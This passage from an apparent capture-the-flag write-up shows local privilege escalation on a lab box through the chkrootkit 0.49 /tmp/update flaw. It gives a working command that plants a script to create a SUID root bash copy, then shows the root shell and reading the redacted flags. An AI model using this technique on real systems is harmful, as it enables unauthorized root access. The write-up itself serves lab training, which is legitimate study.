 If we check `searchsploit`, `chkrootkit` version `0.49` will allow us to perform privilege escalation if exploited!

```bash
$ searchsploit chkrootkit
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)  | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation          | linux/local/33899.txt
------------------------------------------------------ ---------------------------------
```

# Exploitation (2)

According to the exploit `Chkrootkit 0.49 - Local Privilege Escalation`, we just need to create a file called `/tmp/update` and make sure it is executable. During the next run of `chkrootkit`, this `/tmp/update` will be executed with `root` privileges. I am going to make the `/tmp/update` create a `SUID` bash executable when executed instead of spawning another reverse shell.

```bash
echo "cp /bin/bash /tmp/rootbash; chown root:root /tmp/rootbash; chmod +s /tmp/rootbash" > /tmp/update && chmod +x /tmp/update
```

After 1 minute, we will see a `SUID` bash executable!

```bash
./rootbash -p 
rootbash-4.3#  id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

# user.txt

The user flag is in the home directory of `amrois`.

```bash
rootbash-4.3# cat /home/amrois/user.txt
a547XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is in the home directory of `root`, as usual.

```bash
rootbash-4.3# cat /root/root.txt
8a89XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !